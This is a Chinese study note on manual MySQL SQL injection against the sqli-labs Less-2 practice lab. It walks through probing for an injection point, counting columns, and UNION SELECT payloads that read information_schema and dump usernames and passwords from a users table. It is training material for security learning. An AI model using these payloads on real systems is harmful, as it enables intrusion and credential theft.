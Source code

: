 ```yaml
---
title: 2.2 SQL注入之MYSQL手工注入
url: https://www.yuque.com/u29002979/ep2zrx/12725872b4a01e365ef001299984dbe4
---
```


<h1>SQL注入之MYSQL手工注入</h1>
<p>本章节重点在于熟悉注入流程，以及注入原理。练习靶场为sqli-labs第二关数字型注入。</p>
<h3>sqli-labs数字型注入</h3>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/a6c51cb8e8ec4a3b8840fa3c8e105f86.png" alt="image.png" class="align-none" /></p>
<p>在url中输入id值，执行查询sql语句。即可得到对应数据</p>
<p>less-2源码分析：</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/d4245f8d3a7b423ebb96ddaa5f894fa8.png" alt="image.png" class="align-none" /></p>
<p>浏览器 进行数据提交  服务器  ：</p>
<pre><code>get 提交  ：  url   数据长度 
     速度快  
	 用于： 

post 提交 ： 服务器    安全性   数据量 </code></pre>

<h3>注入流程</h3>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/708c5f66672d462d8bffd38e68791f2f.png" alt="image.png" class="align-none" /></p>
<h3>注入语句</h3>
<pre><code>尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个

```
	3.报错，判断回显点 union 
	4.信息收集 
	  数据库版本 version()
	  高版本：5.0  
		系统库： infromation 。。。
	  数据库名称：database（）
	  低版本：5.0 
	5.使用对应SQL进行注入  
		数据库库名：security
	. 下一级  
	infromation_schema.tables 查找表名
	table_name
	查询serurity库下面 所有的表名 

	database（）


	= 前后 连到一起
	union select 1,group_concat(table_name),3 from information_schema.tables
	where table_schema=database()

	表： users
	如何查询表里面有那些字段？ 
	user 字符 转行 16进制
	union select 1,group_concat(column_name),3 from information_schema.columns
	where table_name=0x7573657273

	username  password  字段数据  
	select username,password from users
	0x3a  :
	union select 1,2,(select group_concat(username,0x3a,password)from users)
	  
```

</code></pre>
